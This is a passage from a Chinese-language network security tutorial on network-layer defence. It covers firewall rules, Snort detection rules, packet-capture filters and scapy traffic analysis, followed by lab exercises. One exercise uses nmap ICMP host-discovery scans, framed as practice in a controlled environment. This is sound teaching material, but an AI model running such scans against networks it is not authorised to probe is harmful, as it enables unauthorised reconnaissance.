iptables -A INPUT -m ttl --ttl-lt 5 -j LOG --log-prefix "LOW_TTL: "
iptables -A INPUT -m ttl --ttl-lt 5 -j DROP

# 使用 nftables（iptables的继任者）
nft add table inet filter
nft add chain inet filter input { type filter hook input priority 0 \; policy drop \; }
nft add rule inet filter input ip saddr 192.168.1.0/24 accept
nft add rule inet filter input ct state established,related accept
```

#### 3.8.2 IDS/IPS在网络层的检测

入侵检测/防御系统在网络层主要关注：

| 检测项 | 说明 | 工具 |
|--------|------|------|
| 异常IP包 | 畸形头部、异常大小、保留字段非零 | Snort、Suricata |
| 分片攻击 | 重叠分片、超大分片、分片洪水 | Snort frag3预处理器 |
| IP欺骗 | 源IP不属于已知网段 | uRPF、ACL |
| 异常TTL | TTL值与已知路由跳数不匹配 | 自定义规则 |
| 扫描行为 | ICMP扫描、端口扫描的网络层特征 | Snort sfportscan |
| 路由异常 | 非预期的路由变化、BGP更新 | BGP监控工具 |

```bash
# Snort 网络层规则示例
# 检测ICMP扫描
alert icmp any any -> $HOME_NET any (msg:"ICMP Scan Detected"; itype:8; threshold:type both, track by_src, count 20, seconds 10; sid:1000001; rev:1;)

# 检测IP分片攻击
alert ip any any -> $HOME_NET any (msg:"Fragmented IP Attack"; fragbits:M; threshold:type both, track by_dst, count 100, seconds 10; sid:1000002; rev:1;)

# 检测异常小TTL
alert ip any any -> $HOME_NET any (msg:"Low TTL - Possible Spoofed Packet"; ttl:<5; sid:1000003; rev:1;)
```

#### 3.8.3 网络层监控与取证

```bash
# 使用 tcpdump 抓取网络层流量
# 抓取所有IP包
tcpdump -i eth0 ip -w all_ip.pcap

# 抓取分片包
tcpdump -i eth0 'ip[6:2] & 0x3fff != 0' -w fragments.pcap

# 抓取带有IP选项的包
tcpdump -i eth0 'ip[0] & 0x0f > 5' -w options.pcap

# 抓取异常TTL的包
tcpdump -i eth0 'ip[8] < 5' -w low_ttl.pcap

# 使用 Wireshark 显示过滤器
# ip.frag_offset > 0           # 分片包
# ip.flags.mf == 1             # 更多分片标志
# ip.ttl < 10                  # 低TTL
# icmp.type == 5               # ICMP重定向
# ip.opt.type == 131           # 松散源路由
# ip.opt.type == 137           # 严格源路由

# 使用 Python 进行网络层流量分析
from scapy.all import *
pkts = rdpcap("capture.pcap")
for pkt in pkts:
    if IP in pkt:
        ip = pkt[IP]
        # 检测异常TTL
        if ip.ttl < 10:
            print(f"Low TTL: {ip.src} -> {ip.dst} TTL={ip.ttl}")
        # 检测分片
        if ip.frag > 0 or ip.flags.MF:
            print(f"Fragment: {ip.src} -> {ip.dst} ID={ip.id} Frag={ip.frag}")
        # 检测IP选项
        if ip.options:
            print(f"Options: {ip.src} -> {ip.dst} {[type(o).__name__ for o in ip.options]}")
```

---

### 3.9 本节核心知识图谱



---

### 3.10 常见误区与纠正

| 误区 | 正确认知 |
|------|----------|
| IPv6比IPv4更安全 | IPv6本身不提供加密和认证，需要依赖IPsec；而且IPv6管理不善可能引入新攻击面 |
| 禁用ICMP是最安全的做法 | 完全禁用ICMP会影响网络诊断和Path MTU Discovery，应该选择性允许必要类型 |
| VPN一定安全 | IPsec VPN的安全性取决于配置——弱PSK、Aggressive Mode、过时算法都会降低安全性 |
| BGP劫持只影响大企业 | 任何拥有公网IP的组织都可能受影响，子前缀劫持可以在几分钟内发生 |
| 防火墙能阻止所有网络层攻击 | 防火墙不检测分片重组后的内容，不防御来自内部的IP欺骗 |
| 私有IP地址不可从外部访问 | 通过NAT映射、VPN隧道或配置错误，私有IP可能暴露 |
| 路由协议是自动安全的 | OSPF/RIP/BGP都需要额外配置认证，许多网络从未启用 |

---

### 3.11 实战练习

**练习1：子网计算**

给定172.16.0.0/16网络，划分出至少10个子网，每个子网至少1000台主机。写出所有子网的网络地址、广播地址和主机范围。

**练习2：ICMP侦察**

```bash
# 在受控环境中练习
# 1. 使用不同类型的ICMP包探测目标
nmap -sn -PE 192.168.1.0/24   # Echo
nmap -sn -PP 192.168.1.0/24   # Timestamp
nmap -sn -PM 192.168.1.0/24   # Netmask

# 2. 对比三种方式的扫描结果差异
# 3. 分析为什么某些主机对不同类型的ICMP有不同响应
```

**练习3：IPsec VPN搭建**

```bash
# 使用 strongSwan 搭建 IPsec VPN（需要两台Linux机器）
# 服务端安装
apt install strongswan

# 编辑 /etc/ipsec.conf
# conn test-vpn
#     authby=secret
#     left=server_ip
#     leftsubnet=0.0.0.0/0
#     right=client_ip
#     rightsubnet=192.168.2.0/24
#     ike=aes256-sha256-modp2048!
#     esp=aes256-sha256!
#     keyexchange=ikev2
#     auto=add

# 启动连接
ipsec start
ipsec up test-vpn
```

**练习4：路由安全监控**

```bash
# 使用 netflow/sflow 监控异常路由
# 安装和配置 nfdump
apt install nfdump

# 查看流量统计
nfcapd -l /var/cache/nfdump -p 9995 -D
nfdump -r /var/cache/nfdump/nfcapd.current -s srcip/bytes -n 20
```
